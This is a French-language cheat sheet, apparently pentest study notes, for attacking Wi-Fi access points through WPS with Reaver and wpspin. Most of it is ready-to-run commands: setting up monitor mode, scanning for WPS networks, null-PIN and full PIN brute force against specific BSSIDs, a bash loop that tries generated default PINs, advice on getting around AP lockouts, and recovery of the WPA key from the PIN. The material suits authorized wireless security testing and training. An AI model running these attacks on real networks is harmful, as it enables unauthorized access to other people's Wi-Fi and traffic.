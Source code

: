 

> [!ATTENTION]
> Les AP récents autorisent 3 tentatives au début puis lock 60 secondes après chaque nouvelle tentative, puis lock de 365 jours au bout de 10 tentatives).
> Reaver nous en informe avec un [!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking.
> Dans ce cas tester tout de même quelques tentative, puis si sans succès -> utiliser un Algo de generation de PIN.


https://github.com/t6x/reaver-wps-fork-t6x

```usage
reaver -i [interface] -b [BSSID] -c [channel]
```

|**Option**|**Description**|
|---|---|
|`-i`|Name of the monitor-mode interface to use|
|`-b`|BSSID of the target AP|
|`-c`|Set the 802.11 channel for the interface|
|`-p`|Use the specified pin|
|`-d`|Set the delay between pin attempts|
|`-l`|Set the time to wait if the AP locks WPS pin attempts|
|`-g`|Quit after num pin attempts|
|`-r`|Sleep for y seconds every x pin attempts|
|`-t`|Set the receive timeout period|
|`-L`|Ignore locked state reported by the target AP|
|`-K, -Z`|Run pixiedust attack|
|`-O`|Write packets of interest into pcap file|

## 1. Passer en mode monitor

> [!WARNING]
> Important de ne pas utiliser airmon-ng du à un bug

```shell-session
sudo iw dev wlan0 interface add mon0 type monitor
```

```shell-session
sudo ifconfig mon0 up
```

```shell-session
iwconfig
```

## 2. Scan WPS networks

Capturer le trafic et afficher les information WPS

```shell-session
sudo airodump-ng --wps --ignore-negative-one mon0
```

## 3. Bruteforce Online


Null PIN

```shell-session
sudo reaver -b 5A:1A:59:B7:E7:97 -c 1 -i mon0 -p " " -v
```

En ayant connaissance de la première moitié du PIN

```shell-session
sudo reaver -i mon0 -b B2:A5:1D:E1:B2:11 -c 1 -p 1234 -v
```

Bruteforce complet

```shell-session
sudo reaver -i mon0 -b <bssid> -c <channel> -v
```


### Vendor lookup


Prendre les 3 premiers octets de l'adresse MAC de l'AP et possible de checker dans /var/lib/ieee-data/oui.txt ou bien sur https://standards-oui.ieee.org/oui/oui.txt


```shell-session
grep -i "9C-C9-EB" /var/lib/ieee-data/oui.txt
```


### Générer des default WPS Pin

https://github.com/drygdryg/wpspin

WPSPin -> genère de potentiels pin en sa basant sur l'adresse MAC du routeur

Install

```shell-session
git clone https://github.com/drygdryg/wpspin.git
cd wpspin
sudo python setup.py install
```

Générer 1 PIN

```shell-session
wpspin D4:BF:7F:EB:29:D2
```

Générer plusieurs PIN

```shell-session
wpspin -A D4:BF:7F:EB:29:D2
```

Générer plusieurs PIN et formater la sortie

```shell-session
wpspin -A 60:38:E0:A2:3D:2A | grep -Eo '\b[0-9]{8}\b' | tr '\n' ' '
```

Puis bruteforce avec reaver pour chaque PIN

```bash
#!/bin/bash

#We add generated PINs into this list
PINS='73834410 94229882 73834410 06490959 11184812 63311501 11184812 36499373 63313604 99956042 95661469 89478486 11184812 11184812 95755212 20854836 20144326 33946153 13142452 74163052 51875350 43977680 56587340 95719115 48563710 92148659 05294176 89532331 68175542 71412252 80652847 76229909 46264848 82799427 20233921 31957199 10864111 62327145 30432031 90970948 22369628 33554433 34259283 35611530 20172527 67958146 12345670 74244973'

for PIN in $PINS
do
    echo Attempting PIN: $PIN
    sudo reaver --max-attempts=1 -l 100 -r 3:45 -i mon0 -b 60:38:E0:A2:3D:2A -c 1 -p $PIN
done
echo "PIN Guesses Complete"
```

Voir également [[3. Générateurs de PIN]]


## 4. Récupérer la clé WPA à partir du PIN

Une fois le PIN récupéré, possible de récupérer la clé WPA

```shell-session
sudo reaver -i mon0 -b 60:38:E0:2A:4F:21 -p <PIN> -v
```